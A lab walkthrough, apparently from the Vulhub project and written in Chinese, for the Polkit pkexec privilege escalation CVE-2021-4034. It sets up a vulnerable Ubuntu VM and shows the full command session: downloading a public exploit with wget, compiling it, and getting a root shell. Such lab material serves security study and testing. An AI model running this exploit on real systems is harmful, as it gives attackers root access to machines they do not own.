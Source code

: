 # Polkit `pkexec` 权限提升漏洞（CVE-2021-4034）

Polkit（之前名为PolicyKit）是一个权限相关的套件，pkexec是其中用于以其他用户身份执行命令的工具，它具有suid权限。

当前版本的pkexec中没有正确处理参数和环境变量，导致攻击者可以利用这个Bug劫持环境变量`GCONV_PATH`，进而劫持动态链接库，以root身份执行任意代码。

参考链接：

- https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
- https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
- https://github.com/berdav/CVE-2021-4034
- https://xz.aliyun.com/t/10870

## 漏洞环境

> 说明: Linux内核在这个[commit](https://github.com/torvalds/linux/commit/dcd46d897adb70d63e025f175a00a89797d31a43)中修复了[`argc==0`的Bug](https://lwn.net/Articles/882799/)，而Docker环境会使用宿主机的内核，所以Vulhub采用的方案是在Docker容器中运行Qemu虚拟机，并在虚拟机中运行合适版本的Ubuntu操作系统。

你可以执行下面这条命令启动一个Ubuntu 20.04，其中包含Polkit 0.105版本套件：

```
docker compose up -d
```

因为容器中运行了Qemu虚拟机，所以初始化需要消耗更长时间。你可以使用`docker compose logs -f`查看运行时的日志，如果发现如下日志，说明初始化成功：

![](1.png)

## 漏洞利用

首先，使用`ubuntu/vulhub`作为账号密码登录目标的SSH（端口是2222）：

```
ssh ubuntu@192.168.1.163 -p2222
```

然后使用[这个项目](https://github.com/berdav/CVE-2021-4034)来利用CVE-2021-4034：

```
ubuntu@ubuntu:~$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd)
ubuntu@ubuntu:~$ cd /tmp/
ubuntu@ubuntu:/tmp$ wget https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
--2023-01-11 15:11:29--  https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
Resolving github.com (github.com)... 20.205.243.166
Connecting to github.com (github.com)|20.205.243.166|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main [following]
--2023-01-11 15:11:30--  https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main
Resolving codeload.github.com (codeload.github.com)... 20.205.243.165
Connecting to codeload.github.com (codeload.github.com)|20.205.243.165|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/x-gzip]
Saving to: ‘main.tar.gz’

main.tar.gz                                            [ <=>                                                                                                             ]   4.08K  --.-KB/s    in 0.003s

2023-01-11 15:11:30 (1.49 MB/s) - ‘main.tar.gz’ saved [4176]

ubuntu@ubuntu:/tmp$ tar -zxvf main.tar.gz
CVE-2021-4034-main/
CVE-2021-4034-main/.gitignore
CVE-2021-4034-main/LICENSE
CVE-2021-4034-main/Makefile
CVE-2021-4034-main/README.md
CVE-2021-4034-main/cve-2021-4034.c
CVE-2021-4034-main/cve-2021-4034.sh
CVE-2021-4034-main/dry-run/
CVE-2021-4034-main/dry-run/Makefile
CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c
CVE-2021-4034-main/dry-run/pwnkit-dry-run.c
CVE-2021-4034-main/pwnkit.c
ubuntu@ubuntu:/tmp$ cd CVE-2021-4034-main/
ubuntu@ubuntu:/tmp/CVE-2021-4034-main$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
ubuntu@ubuntu:/tmp/CVE-2021-4034-main$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd),1000(ubuntu)
```

![](2.png)

上图可见，执行提权程序后，我们已经成为了root用户。
